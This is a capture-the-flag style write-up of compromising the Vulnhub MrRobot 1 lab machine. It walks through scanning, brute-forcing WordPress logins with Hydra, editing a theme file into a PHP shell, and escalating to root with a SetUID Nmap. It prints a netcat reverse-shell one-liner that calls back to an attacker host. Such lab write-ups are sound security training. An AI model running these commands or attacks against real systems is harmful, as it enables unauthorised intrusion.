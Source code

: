 ```yaml
---
layout: post
title:  "MrRobot: 1 Write-Up"
categories: [write-ups]
permalink: /write-ups/mrrobot_1_writeup/
---
```

MrRobot 1 is an intermediate OSCP-like machine (according to the [Abatchy's list](https://www.abatchy.com/2017/02/oscp-like-vulnhub-vms)) hosted on Vulnhub. This machine is a little bit different from the other ones, in this one the goal is to read the three hidden keys in the machine.
<h1>Network Scan</h1>
As always, I've used Nmap to sweep the network and get the IP of the target machine.
![NetScan](netScan.png)
The IP of the target machine is 192.168.56.13.
<br><br>
<h1>Port Scan</h1>
![PortScan](portScan.png)
There are only two ports open (80 and 443) and both of them host the same webpage.
<br><br>
<h1>Port 80 Enumeration</h1>
The root page has an interactive MrRobot themed page but it doesn't lead to anything useful. Nikto found that the site has WordPress 4.3.1 installed and I found some entries inside the robots.txt file.
![Nikto Output](nikto.png)
![Robots.txt](robots.png)
The key-1-of-3.txt file contains the first key while fsocity.dic is a dictionary with some repetitions. I removed the repetitions using "cat port80/fsocity.dic | sort | uniq > port80/fsocityFilt.dic"
<br><br>
<h1>WordPress Bruteforce</h1>
I noticed that the WordPress login page error message was "Invalid username", so I tried to bruteforce the username using Hydra. To do so I used the Network Firefox utility to get the necessary parameters to login.
![POST Parameters](postParams.png) 
![Invalid username message](invalidUser.png)
![Hydra User Bruteforce](hydra1.png)
Hydra found the "Elliot" username, so I tried to bruteforce his password using the fsocity dictionary.
![Invalid password message](invalidPass.png)
![Hydra Password Bruteforce](hydra2.png)
<h1>WordPress Access</h1>
Using the credentials found with Hydra I logged in as Elliot, who has Administrator privileges.
![WordPress Users](wordpressUsers.png)
With the Administrator privileges we can simply edit a php file of the template with a simple php shell (I used 404.php because it is easy to get it executed). I also found that we can upload a malicious plugin or try to use both CVE-2019-8942 and CVE-2019-8943 to get RCE (I wasn't able to exploit them).
![Editing 404](404Edit.png)
Once I had the simple shell I executed "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.10 1234 >/tmp/f" to get a reverse shell.
![Reverse shell 1](revShell1.png)
![Reverse shell 2](revShell2.png)
<h1>Daemon Shell</h1>
I found the second key and a MD5 hash inside the /home/robot/ directory, but the key wasn't readable with my user, so I used hashcat to crack the hash.
![ls /home/robot/](lsRobotHome.png)
![password.raw-md5](passwordMD5.png)
![Hashcat cracking](hashcat.png)
Hashcat cracked the hash successfully, giving us the password "abcdefghijklmnopqrstuvwxyz".
<h1>Robot Shell and Privesc to Root</h1>
Using "su robot" with the "abcdefghijklmnopqrstuvwxyz" password I got access to the robot user. Running LinEnum I saw that Nmap was installed in the machine and that it had the SetUID bit enabled. Nmap has an interactive mode, so I used it to get a shell with an efective user id of 0 (root). I know that there are methods to get UID == 0, but having only the EUID was fine for me. The last key was inside /root/.
![PrivEsc to root](privesc.png)
<h1>Conclusions</h1>
This is a really straightforward machine if you know what are you doing, so I don't really get why it is rated as intermediate. Nevertheless, it is a funny machine to root, even though it is a little bit too CTF-like for me.

